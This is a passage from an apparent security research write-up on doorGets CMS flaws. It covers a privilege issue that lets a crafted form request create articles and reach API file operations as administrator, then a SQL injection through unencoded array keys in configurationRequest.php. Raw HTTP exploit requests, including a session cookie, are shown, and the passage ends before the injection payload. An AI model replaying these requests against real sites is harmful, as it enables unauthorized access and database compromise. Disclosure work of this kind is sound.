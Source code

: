 1
------WebKitFormBoundaryoECdPo4qJTIADcz5
Content-Disposition: form-data; name="modulenews_edit_submit"

Sauvegarder
------WebKitFormBoundaryoECdPo4qJTIADcz5--
```
You can create an article with the title "bbb5" and the content "news_test_by_guest3" with administrator privileges:```
http://domain.com/?blog=news-test-by-guest2-en```

![58.png](./img/58.png)

Similarly, file operations under \doorgets\app\requests\api\ can be operated with administrator privileges in this way.


**[14]**

In \doorgets\app\requests\user\configurationRequest.php:

![59.png](./img/59.png)

Line 837 enters the case when $_GET['action']= analytics.
Line 854 encodes the value of the array, but does not handle the key of the array.
Line 852 directly calls the dbQU function for database query operations.

Since only the value of the array is encoded, but not for the key, the attacker can use the key of the array for SQL injection.

After the administrator logs in, replace the following cookie and request:
```
POST /dg-user/?controller=configuration&action=analytics HTTP/1.1
Host: 127.0.0.1:8003
Connection: keep-alive
Content-Length: 457
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8003
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryEAq599OKe9At35v5
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1:8003/dg-user/?controller=configuration&action=analytics
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=6laloptc1mdug324doe9j3g1n6


------WebKitFormBoundaryEAq599OKe9At35v5
Content-Disposition: form-data; name="configuration_analytics_analytics"

